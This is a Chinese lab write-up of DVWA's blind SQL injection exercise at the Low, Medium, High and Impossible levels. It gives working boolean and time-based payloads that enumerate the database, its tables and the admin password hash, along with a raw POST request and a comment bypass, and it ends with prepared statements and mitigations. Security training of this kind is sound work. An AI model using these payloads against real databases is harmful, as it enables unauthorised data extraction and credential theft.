


# SQL Injection(Blind)

查询结果不回显，页面只有两句话：`User ID exists in the database.` 和 `User ID is MISSING from the database.` 没有回显，就只能把每条数据拆成是非题，一次问一位。

## 漏洞在哪

和普通注入同一处拼接，只是输出被藏了：

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
// 结果只用于判断有没有记录，不显示内容
```

注入仍然成立，只是"数据"要通过页面的两种响应间接读出来。

## 等级对照

| 等级 | 防护 | 本机结果 |
|---|---|---|
| Low | 无 | 布尔盲注 + 时间盲注均成功 |
| Medium | POST 提交，部分字符转义 | URL 编码后布尔盲注成功 |
| High | Session 传参，加 `LIMIT 1` | 注释截断后成功 |
| Impossible | 预编译 | 打不进去 |

## Low

| 项 | 内容 |
|---|---|
| 判点 | `1' AND '1'='1` 返回 exists，`1' AND '1'='2` 返回 missing |
| 注释 | `#` 需编码为 `%23`，`-- ` 需补空格 |
| 长度 | `LENGTH(DATABASE())=4`，可得库名长度 |
| 字符 | `SUBSTRING(DATABASE(),1,1)='d'` 逐位判断 |

```sql
?id=1' AND '1'='1%23
?id=1' AND LENGTH(DATABASE())>3-- -
?id=1' AND SUBSTRING(DATABASE(),1,1)='d'-- -
?id=1' AND ASCII(SUBSTRING(DATABASE(),1,1))=100-- -
```

库名确定后套子查询，顺序是表数 → 表名 → 字段 → 数据：

```sql
1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())=2-- -
1' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=9-- -
1' AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='g'-- -
1' AND LENGTH((SELECT password FROM users WHERE user='admin'))=32-- -
```

`LIMIT 0,1` 里的 0 是偏移，换成 `1,1` 就是第二张表。第一张表名长度 9，是 `guestbook`。

时间盲注用于页面真假都无差异的场景，条件成立时让数据库睡三秒：

```sql
1' AND SLEEP(3)-- -
1' AND IF(LENGTH(DATABASE())=4,SLEEP(3),0)-- -
1' AND IF(SUBSTRING(DATABASE(),1,1)='d',SLEEP(3),0)-- -
1' AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)-- -
```

32 位哈希按位问，一次 3 秒，最坏要几小时。时间盲注手工只用来验证注入点，取数交给工具。






## Medium

| 项 | 内容 |
|---|---|
| 变化 | 下拉框选择 ID，请求改为 POST，部分字符转义 |
| 处理 | 抓包改请求体，空格编码为 `%20` |
| 回退 | 单引号失效时改用 ASCII 判断 |

```
POST /dvwa/vulnerabilities/sqli_blind/ HTTP/1.1
Cookie: security=medium; PHPSESSID=xxxx

id=1%20AND%201=1&Submit=Submit
id=1%20AND%201=2&Submit=Submit
id=1%20AND%20LENGTH(DATABASE())=4&Submit=Submit
id=1%20AND%20ASCII(SUBSTRING(DATABASE(),1,1))=100&Submit=Submit
```

数字型，不需要闭合引号。前两条一条 exists 一条 missing，说明注入成立。

## High

| 项 | 内容 |
|---|---|
| 变化 | 参数存 Session，页面拆两步提交，SQL 末尾加 `LIMIT 1` |
| 绕过 | `-- -` 注释掉 `' LIMIT 1` |
| 结果 | 与 Low 一致 |

```sql
1' AND 1=1-- -
1' AND ASCII(SUBSTRING(DATABASE(),1,1))=100-- -
1' AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)-- -
```

Session 只是换了传参位置，Burp 抓到的仍是同一个请求，改 `id` 即生效。

## Impossible

```php
$stmt = $mysqli->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

另加 Anti-CSRF token 与输入类型校验。输入永远只是值，条件真假不再由用户控制。

## 容易记错的地方

- `#` 直接写在 URL 里会被浏览器当锚点截断，请求根本发不出去，必须用 `%23`。
- `LIMIT 0,1` 的 0 是偏移不是序号，这个记错过两次。
- 只试 `SLEEP(3)` 看到慢了三秒不算成功，得用 `IF` 包住条件才算真能用。
- 盲注的判据是响应差异，任何能造成差异的东西都能当信道：状态码、长度、跳转。

## 怎么修

| 措施 | 作用 |
|---|---|
| 预编译 + 参数绑定 | 根治注入 |
| 统一响应 | 查到与查不到返回同一页面、同一长度 |
| 关闭错误回显 | 消除长度与时间上的可测差异 |
| 请求频率限制 | 盲注要上万次请求，限速直接让它跑不完 |
